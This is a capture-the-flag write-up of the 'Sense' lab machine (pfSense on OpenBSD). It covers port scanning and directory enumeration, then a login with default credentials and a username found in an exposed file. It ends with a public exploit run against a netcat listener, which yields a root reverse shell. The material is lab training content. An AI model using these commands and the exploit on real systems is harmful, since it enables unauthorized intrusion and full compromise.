

# Sense
### OS: OpenBSD
### Difficulty: Easy

## Enumeration:

I'll start with a port scan.
```bash
nmap -sC -p- -sV 10.129.130.131 -oN nmap.txt

PORT    STATE SERVICE  VERSION
80/tcp  open  http     lighttpd 1.4.35
|_http-title: Did not follow redirect to https://10.129.130.131/
|_http-server-header: lighttpd/1.4.35
443/tcp open  ssl/http lighttpd 1.4.35
| ssl-cert: Subject: commonName=Common Name (eg, YOUR name)/organizationName=CompanyName/stateOrProvinceName=Somewhere/countryName=US
| Not valid before: 2017-10-14T19:21:35
|_Not valid after:  2023-04-06T19:21:35
|_http-server-header: lighttpd/1.4.35
|_ssl-date: TLS randomness does not represent time
|_http-title: Login
```


I'll run gobuster on the website.
```bash
gobuster dir -u https://10.129.130.131/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x txt -k -t 20

/themes               (Status: 301) [Size: 0] [--> https://10.129.130.131/themes/]
/css                  (Status: 301) [Size: 0] [--> https://10.129.130.131/css/]
/includes             (Status: 301) [Size: 0] [--> https://10.129.130.131/includes/]
/javascript           (Status: 301) [Size: 0] [--> https://10.129.130.131/javascript/]
/changelog.txt        (Status: 200) [Size: 271]
/classes              (Status: 301) [Size: 0] [--> https://10.129.130.131/classes/]
/widgets              (Status: 301) [Size: 0] [--> https://10.129.130.131/widgets/]
/tree                 (Status: 301) [Size: 0] [--> https://10.129.130.131/tree/]
/shortcuts            (Status: 301) [Size: 0] [--> https://10.129.130.131/shortcuts/]
/installer            (Status: 301) [Size: 0] [--> https://10.129.130.131/installer/]
/wizards              (Status: 301) [Size: 0] [--> https://10.129.130.131/wizards/]
/csrf                 (Status: 301) [Size: 0] [--> https://10.129.130.131/csrf/]
/system-users.txt     (Status: 200) [Size: 106]
/filebrowser          (Status: 301) [Size: 0] [--> https://10.129.130.131/filebrowser/]
/%7Echeckout%7E       (Status: 403) [Size: 345]

```

Let's take a look at the changelog.txt.


And now the system-users.txt file.


We can try to use the default password for pfSense with the username we obtained.
```
rohit:pfsense
```

And it worked!



## Foothold:
I found a CVE and a [POC](https://www.exploit-db.com/exploits/43560) for this version.

We'll need to modify the script to ignore the SSL certificate.

Running the exploit:
```bash
rlwrap nc -lnvp 6666

python3 exp.py --rhost '10.129.130.131' --lhost '10.10.14.85' --lport 6666 --username 'rohit' --password 'pfsense'
```

And we are in.
```bash
whoami
root
```

We can get both flags now.